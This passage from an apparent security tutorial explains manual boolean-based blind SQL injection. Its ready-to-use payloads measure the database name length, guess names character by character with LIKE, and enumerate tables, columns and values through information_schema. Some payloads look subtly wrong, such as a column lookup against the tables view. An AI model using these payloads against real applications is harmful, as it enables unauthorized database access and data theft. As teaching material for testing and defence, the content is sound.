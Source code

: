 First, to avoid losing too much motivation, it may be better to test how many characters you are looking for. For instance, for the database name

```none
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

**Examples with LIKE**

Then, you can start. As everything is the same as for **Union-based SQLi**, and the process is the same for every text, I will only show an example with getting the database name.

```none
' AND database() LIKE '%' -- - // test, should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```

Sometimes, there maybe more than one match. For instance, we could have a database starting with `my_`. In such case, to know if there are more databases like this, you have to exclude the one you found.

```none
' AND database()!='my_example' AND database() LIKE 'my_%' -- -
```

If the query returns true, you may have one more database to check up. Following here, I'm doing this

```none
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```
</div></div>

<hr class="sl">

## Manual Time-based SQLi
